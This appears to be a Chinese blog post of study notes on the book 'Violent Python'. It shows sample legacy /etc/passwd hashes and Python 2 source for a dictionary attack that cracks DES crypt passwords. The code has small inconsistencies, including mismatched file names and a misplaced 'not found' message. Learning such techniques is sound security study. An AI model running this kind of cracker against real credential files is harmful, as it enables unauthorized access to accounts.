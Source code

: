 ```yaml
---
title: Python绝技
date: 2020-12-09 10:55:56
tags: Python Hack
---
```


{% centerquote %} ^ _ ^ {% endcenterquote %}
<!-- more -->

# 前言

《Python绝技--运用Python称为顶级黑客》是 TJ.O'Connor 编著的一本利用 Python 进行网络攻防的书籍。一次偶然路过还书车看到这本书，觉得可以深入了解一下，于是就拿来看了。看了一章后，决定开启这篇博客，以便在之后的日子里一边阅读一边记录。做这个决定的原因有这么几个：
1. 正所谓‘好记性不如烂键盘’，记录大概有利于当前理解与日后查阅
2. 在看完书中的第一章后，大概发现书中使用的 python 版本是 2.7，而我 Windows 主机上安装的 python 是3.6版本的。而且不知是不是系统的原因，书中 linux 系统下 python 自带的 crypt 库在 Windows 下的 python 中似乎不是自带的，我恐怕之后还会有这样因为环境不统一而产生的诸多问题。我不希望在环境统一上耗费太多的心力，于是决定将使用平台从本机上的命令行迁移到实验楼中。因为不配本机环境，所以代码自然不必要以文件形式存在本机上了，不能运行的代码并无太大价值。所以将在实验楼中写下的代码都存在本篇博客的代码段中，实验结果以图片的形式存在本篇博客的图片中，
3. 最后立一个Flag：希望我不要鸽，好好读书记笔记。也希望这本书不要让我失望，是一本值得坚持的书。


# 入门

## 程序1：Unix口令破解机

这个程序是一款二十年前的Unix破解程序，对于今天的Unix系统已经不适用，但是其思想在今天仍然有一定的借鉴意义。

**曾经的Unix系统的 /etc/passwd 文件样例**
```bash
# UserName:PassWord:UserID:GroupID:User Info:User Directory:Command/Shell
victim:HX9LLTdc/jiDE:503:100:Iama Victim:/home/victim:/bin/sh
root:DFNFxgW7C05fo:504:100:Markus Hess:/root:/bin/bash

# 但今天的 Unix 系统中，/etc/passwd中密码字段均用 x 字符代替，真正的密文存储在 /etc/shalow 中
# 另外，今天的 Unix 系统能使用更多安全的hash算法，比如SHA-512
```

但是对于20年前 Unix 系统中用于加密密码的hash算法，可以使用 python 中的crypt库进行模拟，这个库中只有一个函数，就是crypt，用法如下：
```python
crypt(word,salt) -> string
# word ：需要加密的明文
# salt : 长度为2的字符串
```

**准备文件**
```
# password.txt
victim:HX9LLTdc/jiDE:503:100:Iama Victim:/home/victim:/bin/sh
root:DFNFxgW7C05fo:504:100:Markus Hess:/root:/bin/bash

# dictionary.txt，包含一个字符串：egg
```

**Unix密码破解原理**
- dictionary.txt中包含常见密码的明文
- 对于password.txt中每个用户的密码密文
  - 使 salt = 密文的头两个字符
  - 使 word 依次 = dictionary.txt 中每个字符串
  - 如果 crypt(word,salt) 得到的值和密码密文相同，则说明破解成功，word 字段就是密码明文


**程序源码**
```python
import crypt

def testPass(cryptPass):
	salt = cryptPass[0:2]
	dictFile = open('dictionary.txt','r')
	for word in dictFile.readlines():
		word = word.strip('\n')
		cryptWord = crypt.crypt(word,salt)
		if(cryptWord == cryptPass):
			print "[+] Found password :" + word + "\n"
			return
		print "[-] password not found.\n"

def main():
	passFile = open('passwords.txt')
	for line in passFile.readlines():
		if ":" in line:
			print(line)
			user = line.split(':')[0]
			cryptPass = line.split(':')[1].strip()
			print "[*] Cracking password for: " + user
			testPass(cryptPass)

if __name__ == "__main__":
	main()
```

